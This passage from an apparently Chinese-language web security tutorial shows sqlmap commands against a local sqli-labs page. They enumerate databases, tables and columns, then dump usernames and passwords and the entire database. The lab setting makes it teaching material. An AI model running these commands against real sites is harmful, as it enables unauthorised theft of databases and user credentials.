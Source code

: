 
<Image alt="Drawing 12.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zqAXr4gAABQGh6pVVo584.png"/> 
  
图 13：使用 --current-db 参数获取当前数据库

**（3）使用 --tables 参数枚举表名**，示例命令如下 ：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
```


<Image alt="Drawing 13.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y70GAQ0C0AACYCKSvjig335.png"/> 
  
图 14：使用 --tables 参数枚举表名

**（4）使用 --columns 参数枚举字段名**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
```


<Image alt="Drawing 14.png" src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y70mAVarDAAB9o-Ikd5A077.png"/> 
  
图 15：使用 --columns 参数枚举字段名

**（5）使用 --dump 参数批量获取字段值**，示例命令如下：

```shell
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
```


<Image alt="Drawing 15.png" src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y71GANTBrAAFu3OCaUR4397.png"/> 
  
图 16：使用 --dump 参数批量获取字段值

**（6）使用 --dump-all 参数导出整个数据库**。

这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：

```java
./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump-all
```

上述方法导出的数据文件存放路径会在命令行给出，数据以 csv 文件形式保存到本地：

```shell
Ubuntu# pwd
/root/.local/share/sqlmap/output/localhost/dump
Ubuntu# tree
.
├── challenges
│   └── 6EAED22Z6T.csv
├── information_schema
│   ├── CHARACTER_SETS.csv
│   ├── COLLATION_CHARACTER_SET_APPLICABILITY.csv
│   ├── COLLATIONS.csv
│   ├── COLUMN_PRIVILEGES.csv
│   ├── COLUMNS.csv
│   ├── ......
│   ├── SCHEMATA.csv
│   ├── SESSION_STATUS.csv
│   ├── SESSION_VARIABLES.csv
│   ├── STATISTICS.csv
│   ├── USER_PRIVILEGES.csv
│   └── VIEWS.csv
├── mysql
│   ├── help_category.csv
```